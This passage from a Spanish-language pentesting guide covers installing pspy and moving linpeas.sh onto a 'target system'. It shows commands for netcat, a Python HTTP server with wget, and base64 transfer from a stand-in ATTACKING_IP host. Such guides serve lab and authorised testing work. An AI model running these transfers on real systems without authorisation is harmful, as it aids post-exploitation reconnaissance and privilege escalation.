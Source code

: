 ### 5. Pspy (Monitor de procesos sin root)
```bash
# Descargar binario precompilado
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod +x pspy64
./pspy64

# Para arquitectura 32-bit
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32
```

---

## Instalación en Sistemas Restringidos

### Método 1: Transferencia con netcat
```bash
# En tu máquina atacante:
nc -nlvp 4444 < linpeas.sh

# En el sistema objetivo:
nc ATTACKING_IP 4444 > linpeas.sh
```

### Método 2: Usando Python
```bash
# En tu máquina atacante:
python3 -m http.server 8000

# En el sistema objetivo:
wget http://ATTACKING_IP:8000/linpeas.sh
```

### Método 3: Base64 encoding
```bash
# En tu máquina atacante:
base64 -w0 linpeas.sh

# En el sistema objetivo:
echo "ENCODED_STRING" | base64 -d > linpeas.sh
```

---

## Instalación en Kali Linux

### Estado de las Herramientas en Kali Linux

#### ✅ Ya Incluidas en Kali Linux
```bash
# Estas herramientas YA están en Kali:
- LinEnum (en /usr/share/linux-exploit-suggester/)
- Linux Exploit Suggester
- Muchas herramientas de PEASS-ng
```
